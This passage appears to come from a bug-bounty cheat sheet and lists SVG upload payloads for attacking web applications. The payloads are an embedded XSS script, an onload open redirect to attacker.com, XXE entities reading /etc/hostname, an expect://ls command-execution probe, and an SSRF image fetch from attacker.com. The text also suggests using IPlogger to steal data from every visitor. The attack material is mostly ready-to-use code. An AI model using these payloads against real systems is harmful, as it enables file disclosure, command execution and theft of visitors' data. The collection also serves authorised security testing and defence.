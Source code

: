<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("HolyBugx XSS");
   </script>
</svg>
```
```

### OpenRedirection:

```markdown
Upload using .svg file

<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='https://attacker.com'"
xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
</code>
```

### XXE:

```markdown
1. Upload using .svg file
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="40" x="0" y="16">&xxe;</text>
</svg>
```

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

2. Using excel file you can acheive not only XXE, but other vulnerability too.
https://medium.com/@rezaduty/security-issues-in-import-export-functionality-5d8e4b4e9ed3
```

### SSRF:

```markdown
1. Abusing the "Upload from URL", if this image is going to be saved in some public site, 
	 you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.

2. SSRF Through .svg file.

<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
```
